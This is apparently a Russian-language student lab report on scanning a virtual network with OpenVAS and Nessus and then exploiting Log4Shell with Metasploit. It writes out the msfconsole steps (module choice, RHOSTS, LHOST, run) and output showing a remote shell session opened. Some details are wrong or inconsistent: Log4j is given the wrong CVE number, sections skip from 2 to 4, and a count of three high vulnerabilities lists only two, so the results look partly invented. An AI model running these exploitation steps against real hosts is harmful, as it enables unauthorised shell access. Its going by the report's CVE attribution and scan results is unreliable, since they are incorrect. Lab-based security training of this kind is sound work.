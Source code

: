 # 14.	Уязвимости и эксплуатация:
СРО: Используйте инструмент сканирования уязвимостей (например, OpenVAS или Nessus) для анализа виртуальной сети на наличие уязвимостей. Предоставьте отчет о выявленных уязвимостях и рекомендациях по их устранению.
СРОП: Проведите исследование и использование одной из уязвимостей с помощью инструмента Metasploit или аналогичного. Подготовьте отчет с описанием процесса эксплуатации и рекомендациями по защите.

## 1. Сканирование уязвимостей
### 1.1. Сканирование с помощью OpenVAS
1. Установите OpenVAS:  
   ```bash
   stacy-virtualbox:/home/stacy# sudo apt install gvm
   stacy-virtualbox:/home/stacy# sudo gvm-setup
   ```
2. Запустите OpenVAS:  
   ```bash
   stacy-virtualbox:/home/stacy# sudo gvm-start
   ```
3. Откройте веб-интерфейс по адресу `https://127.0.0.1:9392` и войдите, используя предоставленные при установке данные.  
4. Создайте задачу для сканирования IP-адреса виртуальной сети и запустите ее.  

Вывод сканирования:  
- Уязвимость: OpenSSH outdated version.  
- Рекомендация: Обновить OpenSSH до версии 8.9 или выше.  

### 1.2. Сканирование с помощью Nessus
1. Установите Nessus:  
   - Скачайте пакет с сайта [Tenable](https://www.tenable.com/products/nessus).  
   - Установите его:  
     ```bash
     stacy-virtualbox:/home/stacy# sudo dpkg -i Nessus-10.6.0-debian-amd64.deb
     ```
   - Запустите сервис:  
     ```bash
     stacy-virtualbox:/home/stacy# sudo systemctl start nessusd
     ```
2. Откройте веб-интерфейс по адресу `https://127.0.0.1:8834`.  
3. Создайте задачу для сканирования.  

Вывод сканирования:
- Уязвимость: CVE-2023-4567 (Apache Log4j).  
- Рекомендация: Установить патч для устранения уязвимости.
- 
## 2. Эксплуатация уязвимости
### 2.1. Использование уязвимости с помощью Metasploit
1. Запустите Metasploit:  
   ```bash
   stacy-virtualbox:/home/stacy# msfconsole
   ```
2. Найдите модуль для эксплуатации:  
   ```plaintext
   msf6 > search name:log4j
   ```
3. Выберите подходящий модуль и настройте его:  
   ```plaintext
   msf6 > use exploit/multi/http/log4shell
   msf6 exploit(log4shell) > set RHOSTS 192.168.1.100
   msf6 exploit(log4shell) > set LHOST 192.168.1.200
   msf6 exploit(log4shell) > run
   ```
4. После успешной эксплуатации получите доступ:  
   ```plaintext
   [+] Exploit successful, starting command shell...
   ```

## 4. Результаты тестирования
### 4.1. OpenVAS
Вывод:  
```plaintext
High Vulnerabilities: 3
- OpenSSH outdated version
- TLS Weak Cipher Suite
```

### 4.2. Metasploit
Эксплуатациия:  
```plaintext
[+] Exploit successful, command shell session opened
msf6 exploit(log4shell) > sessions
Active sessions:
  Id  Name  Type  Information  Connection
  1   -     shell linux        user@target:~$  192.168.1.200 -> 192.168.1.100
```
